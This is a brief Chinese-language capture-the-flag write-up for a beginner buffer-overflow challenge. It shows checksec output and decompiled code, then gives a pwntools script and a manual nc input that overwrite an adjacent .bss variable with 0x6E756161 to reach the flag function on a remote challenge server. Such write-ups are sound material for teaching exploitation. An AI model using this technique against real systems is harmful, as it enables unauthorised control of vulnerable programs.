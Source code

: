 checksec

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

no canary可以用shellcode

拖入ida， main 中关键代码


```asm
.bss:0000000000601068 unk_601068      db    ? ;               ; DATA XREF: main+3B↑o
.bss:0000000000601069                 db    ? ;
.bss:000000000060106A                 db    ? ;
.bss:000000000060106B                 db    ? ;
.bss:000000000060106C dword_60106C    dd ?    
```


```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  alarm(0x3Cu);
  setbuf(stdout, 0LL);
  puts("~~ welcome to ctf ~~     ");
  puts("lets get helloworld for bof");
  read(0, &unk_601068, 0x10uLL);
  if ( dword_60106C == 0x6E756161 ) // dword_60106C覆盖为0x6E756161即可
    sub_400686();
  return 0LL;
}
```

## 方法1
```python
from pwn import *
io = remote('124.126.19.106',36887)

io.recvuntil("for bof")
io.sendline(flat('a'*4, p64(0x6E756161)))
io.interactive()
io.close()
```
## 方法2
0x6E756161 = 'nuaa' 小端存储在内存， 正常为 aaun

覆盖值为 aaaa + 'aaun' = 'aaaaaaun'

nc 124.126.19.106 36887

输入 aaaaaaun 即得flag
